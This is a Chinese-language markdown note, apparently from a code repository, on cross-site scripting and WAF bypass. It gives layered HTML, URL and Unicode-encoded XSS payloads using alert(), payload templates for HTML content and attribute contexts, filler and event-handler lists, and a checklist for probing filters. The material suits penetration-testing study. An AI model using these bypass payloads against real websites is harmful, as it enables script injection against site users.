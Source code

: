 # xss 攻击和绕过思路

## 什么样的api可能存在xss 漏洞
输入参数如果能回显则可能存在xss 漏洞

存在xss 的位置可能是
* html 内容
* html 属性
* css 内联样式
* 内联js或者json
* href 等

常见的是html 内容和属性
```
<input> html 内容 </input>

<input> html 内容 </input value=""// html 属性>

```

## html编码，url 编码 和js 编码

html 的解析顺序为3个环节：HTML解码 -->URL解码 -->JS解码

举例1：
```
1. 对javascript:alert(1)进行HTML编码
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
2. 对alert进行JS编码
<img src=xxx onerror="javascript:\u0061\u006c\u0065\u0072\u0074(1)">
3. 以上两种方法混用
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;&#x28;&#x31;&#x29;">

```
举例2：
```
1. 原代码
<a href="javascript:alert('xss')">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074('xss')">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;">test</a>

```

## 攻击顺序
1. 判断是否存在字符串编码
输入<script>alert("1")</script>, 看是否转成html 实体，可以判断是否使用html实体转换。
  
2. 是否存在waf
一般waf 返回403，如果发现403，则存在waf拦截。

## waf 绕过
### 1. xss输出在html内容

一般payload 格式有下面几种
```
<{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}
```

```
<sCriPt{filler}sRc{?filler}={?filler}{url}{?filler}{>,//,Space,Tab,LF}
```

```
<A{filler}hReF{?filler}={?filler}{quote}{special}:{javascript}{quote}{?filler}{>,//,Space,Tab,LF}
```

**{tag}**：html 标签名： a img script 等等

**{filter}**：空格，/ 等，可以是url 编码的字符
```
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s] tab
<tag%09%09xxx -如果失败， s+ tabtab
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+
```
**event_handler** 可能是多个even 函数:
```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
```
**{javascript}**: js代码
js 代码可以混淆，可以js编码成unicode，可以使用html实体编码，几乎没法正则表达式绕过


### 2. xss输出在html 属性
常见的payload 格式：
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```

## html 编码绕过
html 一般会过滤掉< > " &, 所以输出在html 内容位置的xss 泄露可以完全避免，但是输出在html 属性的payload 可能会漏放
一般payload 以下格式
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```
举例：
```
" onclick="alert('xss')"
```
## payload 构造试探
```
// 判断是否存在htmlspecialchars
<script>alert("1")</script>

// 判断是否filter格式
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s]
<tag%09%09xxx -如果失败， s+
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+

//判断event_handler是否黑名单格式
<tag{filler}onxxx – 如果失败，onw+.
如果通过， on(load|click|error|show)
<tag{filler}onclick – 如果通过，则没有事件处理程序检查正则表达式。

//构造js payload
```
